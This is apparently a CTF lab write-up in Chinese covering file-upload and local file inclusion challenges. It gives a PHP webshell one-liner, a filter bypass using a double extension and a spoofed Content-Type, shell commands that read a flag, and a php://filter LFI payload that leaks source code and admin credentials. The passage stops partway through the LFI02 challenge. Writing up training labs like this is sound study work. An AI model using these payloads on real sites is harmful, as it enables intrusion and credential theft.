 

# 02 - File Upload
## FIL01 
網址: http://ctfd-ais3.crazyfirelee.tw:9011/
![image](https://hackmd.io/_uploads/SkQGvuh9A.png)
1.點擊 Upload Area
![image](https://hackmd.io/_uploads/BkO8Puhq0.png)
2.寫一個webshell(檔名.php)並將其上傳
```<?php system($_GET['cmd']);?>```
![image](https://hackmd.io/_uploads/rysODlpq0.png)
3.將網址改成http://ctfd-ais3.crazyfirelee.tw:9011/uploads/a764c_108.160.138.201.php
![image](https://hackmd.io/_uploads/SkUcPxTcR.png)
4.執行程式(在連結加上```?cmd=ls ../```)找到FLAG
![image](https://hackmd.io/_uploads/Hkgmtl69C.png)
5.執行程式```?cmd=cat ../FLAG```
![image](https://hackmd.io/_uploads/Hy28FeTq0.png)



## FIL02 (這題有防php檔)
網址: http://ctfd-ais3.crazyfirelee.tw:9012/
1.使用Burp Suite Community Edition開Goolge
![image](https://hackmd.io/_uploads/ryWreWaq0.png)
![image](https://hackmd.io/_uploads/HkBbx-Tc0.png)
2.點擊 Upload Area
![image](https://hackmd.io/_uploads/ryxEe-pq0.png)
3.寫一個webshell(檔名.png.php)並將其上傳並攔截
![image](https://hackmd.io/_uploads/H1HTVWp5R.png)
![image](https://hackmd.io/_uploads/HJKIS-TqC.png)
4.改成```Content-Type: image/jpg ```(記得關掉攔截)
![image](https://hackmd.io/_uploads/SkCpSWpcA.png)
5.將網址改成http://ctfd-ais3.crazyfirelee.tw:9012/uploads/c3644_108.160.138.201.php
![image](https://hackmd.io/_uploads/SyqSw-pq0.png)
6.執行程式(在連結加上```?cmd=ls ../```)找到FLAG
![image](https://hackmd.io/_uploads/B12uDW69C.png)
7.執行程式```?cmd=cat ../FLAG```
![image](https://hackmd.io/_uploads/rk8qvZacR.png)



# 03 - Local File Inclusion
## LFI01 
網址: http://ctfd-ais3.crazyfirelee.tw:9021/
![image](https://hackmd.io/_uploads/ryca6-6qC.png)
1.發現貓貓怪怪的(通靈)，在新增分頁打開它
![image](https://hackmd.io/_uploads/rJTGAWT9A.png)
2.使用编码读取```index.php?file1=php://filter/read=convert.base64-encode/resource=file.txt```
連結改成http://ctfd-ais3.crazyfirelee.tw:9021/include.php?GetType=file_get_contents&file=static/bitcoinCat.jpg&file=php://filter/read=convert.base64-encode/resource=index.php
![image](https://hackmd.io/_uploads/Skf50-p9A.png)
3.發現文字被Base64加密，將其解密
![image](https://hackmd.io/_uploads/HkNXJz6c0.png)
4.找到帳密(帳:admin 密:CATLOVEBITCOINMEOWMEOW)並登入

## LFI02 
網址: http://ctfd-ais3.crazyfirelee.tw:9022/
![image](https://hackmd.io/_uploads/H1gVBM6q0.png)
1.點擊 Upload Area
![image](https://hackmd.io/_uploads/H1mHBfT50.png)
2.寫一個webshell(檔名.php)並將其上傳
```